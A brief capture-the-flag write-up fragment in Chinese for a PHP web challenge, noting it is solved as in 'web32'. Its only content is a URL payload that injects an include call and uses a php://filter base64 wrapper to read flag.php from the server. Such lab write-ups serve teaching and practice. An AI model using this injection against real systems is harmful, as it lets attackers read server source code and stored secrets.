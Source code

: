 # 知识点

# 思路
### 方法一
与web32相同
```git
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```
